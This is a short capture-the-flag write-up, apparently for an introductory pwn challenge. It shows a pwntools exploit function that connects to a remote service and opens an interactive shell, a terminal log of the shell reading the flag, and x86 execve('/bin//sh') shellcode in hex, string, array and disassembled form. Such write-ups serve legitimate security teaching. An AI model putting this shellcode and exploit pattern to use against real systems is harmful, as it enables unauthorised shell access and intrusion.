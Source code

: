 
Can we get a remote?!?!?!
## It's beautiful:
```python
def remoteShell():
	p = remote(HOST, PORT)
	addr = getAddr(p)
	p.recvuntil("directions:")
	p.sendline(anotherFuckingPld(addr))
	p.interactive()
```
QED
```
┌──(kali㉿kali)-[~/Desktop/5-Week]
└─$ python3 School_Pwn1.py
[*] Switching to interactive mode
Hi, H1\xf6VH\xbf/bin//shWT_j;X\x99\x0f\x05AAAAAAAAAAAAAAAAA`\x8c\xc2\xf5\xff\x7f
$ whoami
pwn
$ ls
flag.txt
school
$ cat flag.txt
flag{first_day_of_pwn_school}
```

# More Shellcode from Pwntools Docs:
**Raw Hex** (zero bytes in bold):
```
6A68682F2F2F73682F62696E89E331C96A0B5899CD80 
```

**String Literal:**
```
"\x6A\x68\x68\x2F\x2F\x2F\x73\x68\x2F\x62\x69\x6E\x89\xE3\x31\xC9\x6A\x0B\x58\x99\xCD\x80"
```

**Array Literal:**
```
{ 0x6A, 0x68, 0x68, 0x2F, 0x2F, 0x2F, 0x73, 0x68, 0x2F, 0x62, 0x69, 0x6E, 0x89, 0xE3, 0x31, 0xC9, 0x6A, 0x0B, 0x58, 0x99, 0xCD, 0x80 }
```

Disassembly:
```

0:  6a 68                   push   0x68  
2:  68 2f 2f 2f 73          push   0x732f2f2f  
7:  68 2f 62 69 6e          push   0x6e69622f  
c:  89 e3                   mov    ebx,esp  
e:  31 c9                   xor    ecx,ecx  
10: 6a 0b                   push   0xb  
12: 58                      pop    rax  
13: 99                      cdq  
14: cd 80                   int    0x80
```
